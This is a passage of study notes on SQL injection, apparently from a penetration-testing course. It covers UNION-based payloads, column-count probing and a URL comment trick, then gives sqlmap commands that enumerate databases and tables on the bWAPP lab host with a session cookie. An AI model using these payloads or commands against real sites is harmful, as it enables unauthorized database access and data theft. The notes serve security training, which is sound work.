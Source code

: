 payload:
'UNION SELECT user(); -- -' ;

Cool trick used above the comment is 2 dashes, space then a dash as most browsers automatically remove trailing spaces in URL, So for GET req injections need to add a character after the trailing comment space.

### Before UNION injections number of fields used by original select statement must be found with help of boolean 
' UNION SELECT null; -- -
' UNION SELECT null,null; -- - etc

once number of fields found, see which field affects the output page
' UNION SELECT 'field1', 'field2' ; -- -

See which field appears either in the page itself or in the html source code

Note: IRL DELETE description FROM items WHERE id = '1' is just as deadly. But less seen in practices.

## SQLMap
Autoinjection tool. Better try manual injection first to not crash the site etc
Get injections using UNION based technique:
```bash
sqlmap -u "http://some.site/view.php?id=1141" -p id --technique=U 
```
POST injectons:
```bash
sqlmap -u "http://some.site/view.php?id=1141" --data=<POST string> -p parameter
```
post string can be taken from burp proxy

## SQLi Demo
#### Standard GET/Search
simple injection in url works.

Since login to Bwapp is needed, req must provide the cookie after login for session
(copy from burpsuite proxy)
Use SQLMap to see possible payloads
```bash
sqlmap -u "http://demo.ine.local/sqli_1.php?title=asdasd&action=search" -p title --cookie='PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0' 
```
View databases present
```bash
sqlmap -u "http://demo.ine.local/sqli_1.php?title=asdasd&action=search" -p title --cookie='PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0' --dbs
```

View the tables present in a database
```bash
sqlmap -u "http://demo.ine.local/sqli_1.php?title=asdasd&action=search" -p title --cookie='PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0' --dbs -D bWAPP --tables 
```
